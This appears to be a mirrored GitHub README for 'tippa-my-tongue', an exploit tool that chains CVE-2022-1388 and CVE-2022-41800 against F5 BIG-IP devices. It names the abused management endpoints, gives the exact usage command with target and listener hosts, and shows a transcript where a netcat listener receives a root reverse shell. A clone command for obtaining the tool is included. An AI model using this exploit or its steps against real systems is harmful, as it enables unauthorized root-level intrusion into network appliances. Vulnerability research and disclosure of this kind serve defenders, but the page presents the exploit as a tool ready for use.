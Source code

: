 # tippa-my-tongue

F5 BIG-IP Exploit Using CVE-2022-1388 and CVE-2022-41800

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/j-baines](https://github.com/j-baines) |
| Url      | [https://github.com/j-baines/tippa-my-tongue](https://github.com/j-baines/tippa-my-tongue)                                               |
| Stars    | 1                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-1388* cve-2022-41800

</details>

## Readme

# Tippa My Tongue

Tippa My Tongue is an exploit that uses CVE-2022-1388 and CVE-2022-41800 to establish a `root` reverse shell on F5 BIG-IP products. Most CVE-2022-1388 exploits achieve code execution using `/mgmt/tm/util/bash`. However, this exploit uses `/mgmt/shared/iapp/rpm-spec-creator`, followed by `/mgmt/shared/iapp/build-package`. This approach was first suggested by [Ron Bowes](https://github.com/rbowes-r7) in this AttackerKB [analysis](https://attackerkb.com/topics/SN5WCzYO7W/cve-2022-1388/rapid7-analysis). Although, to my knowledge, no one ever published a CVE-2022-1388 exploit that did just that.

For more details, read the [VulnCheck](https://vulncheck.com/blog/new-cve-2022-1388) writeup.

## Usage Example:

```
albinolobster@mournland:~/tippa-my-tongue$ python3 tippa-my-tongue.py --rhost 10.9.49.191 --lhost 10.9.49.194

   ▄▄▄▄▄▪   ▄▄▄· ▄▄▄· ▄▄▄·     • ▌ ▄ ·.  ▄· ▄
   •██  ██ ▐█ ▄█▐█ ▄█▐█ ▀█     ·██ ▐███▪▐█▪██
    ▐█.▪▐█· ██▀· ██▀·▄█▀▀█     ▐█ ▌▐▌▐█·▐█▌▐█▪
    ▐█▌·▐█▌▐█▪·•▐█▪·•▐█ ▪▐▌    ██ ██▌▐█▌ ▐█▀·.
    ▀▀▀ ▀▀▀.▀   .▀    ▀  ▀     ▀▀  █▪▀▀▀  ▀ •
         ▄▄▄▄▄       ▐ ▄  ▄▄ • ▄• ▄▌▄▄▄ .
         •██  ▪     •█▌▐█▐█ ▀ ▪█▪██▌▀▄.▀·
          ▐█.▪ ▄█▀▄ ▐█▐▐▌▄█ ▀█▄█▌▐█▌▐▀▀▪▄
          ▐█▌·▐█▌.▐▌██▐█▌▐█▄▪▐█▐█▄█▌▐█▄▄▌
          ▀▀▀  ▀█▄▀▪▀▀ █▪·▀▀▀▀  ▀▀▀  ▀▀▀

                 CVE-2022-1388
                 CVE-2022-41800

                       🦞

[+] Executing netcat listener
[+] Using /usr/bin/nc
Listening on 0.0.0.0 1270
[+] Sending initial request to rpm-spec-creator
[+] Sending exploit attempt request to build-package
Connection received on 10.9.49.191 47152
bash: no job control in this shell
[@localhost:NO LICENSE:Standalone] BUILD # pwd
pwd
/var/config/rest/node/tmp/BUILD
[@localhost:NO LICENSE:Standalone] BUILD # id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
[@localhost:NO LICENSE:Standalone] BUILD #
```

## Acknowledgements

* Ron Bowes: for discovering these endpoints and sharing them with the world
* [RHCP](https://www.youtube.com/watch?v=E1FNkf3MLKY): for being funky




## Get the content

```
git clone https://github.com/j-baines/tippa-my-tongue
cd tippa-my-tongue
```

{% embed url="https://github.com/j-baines/tippa-my-tongue" %}

<figure><img src="https://avatars.githubusercontent.com/u/113205286?v=4" alt=""><figcaption><p>j-baines</p></figcaption></figure>
